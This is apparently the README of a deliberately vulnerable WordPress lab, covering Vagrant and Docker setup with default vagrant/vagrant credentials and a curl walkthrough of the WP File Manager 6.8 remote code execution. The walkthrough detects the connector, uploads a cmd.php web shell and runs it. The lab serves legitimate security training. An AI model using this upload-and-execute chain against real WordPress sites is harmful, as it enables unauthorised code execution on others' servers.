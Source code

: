 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server could run in :
- a virtual machine on an ubuntu host 
- in a docker



## VM

### Install thanks vagrant  
```
sudo apt install vagrant
git clone https://github.com/jlboura/vulnWP
vagrant up
```

### Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 

## Docker 

### Install thanks docker-compose  

Install docker & docker compose: https://docs.docker.com/engine/install/ubuntu/

```
sudo gpasswd -a $USER docker
git clone https://github.com/jossets/WordpressVuln
docker-compose up
```

# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```
curl  "http://localhost:80/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```
curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:80/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```
curl  "http://localhost:80/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```
